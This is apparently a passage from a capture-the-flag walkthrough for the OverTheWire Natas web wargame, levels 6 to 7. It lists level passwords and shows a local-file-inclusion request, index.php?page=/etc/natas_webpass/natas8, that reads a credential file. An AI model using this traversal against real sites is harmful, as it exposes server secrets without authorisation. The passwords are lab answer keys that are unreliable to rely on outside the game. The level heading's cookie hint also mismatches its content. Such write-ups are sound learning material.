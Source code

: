 ```html
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
--------------------------------------------------------
goto:
http://natas6.natas.labs.overthewire.org/includes/secret.inc
--------------------------------------------------------
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
--------------------------------------------------------
"Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
```

---

## Natas Level 6 → Level 7

> Solution: intercept the packet, change the cookie

Username: natas7
URL:      http://natas7.natas.labs.overthewire.org
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>

<body>
  <h1>natas7</h1>
  <div id="content">
  <a href="index.php?page=home">Home</a>
  <a href="index.php?page=about">About</a>
  <br>
  <br>
  this is the front page
  <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  </div>
</body>
</html>
--------------------------------------------------------
we can get the password from "etc/natas_webpass/natas8"
assume this is a Directory Traversal Attack.
--------------------------------------------------------
Home: http://natas7.natas.labs.overthewire.org/index.php?page=home
remove home and add "/etc/natas_webpass/natas8".
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
--------------------------------------------------------
Home About
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

---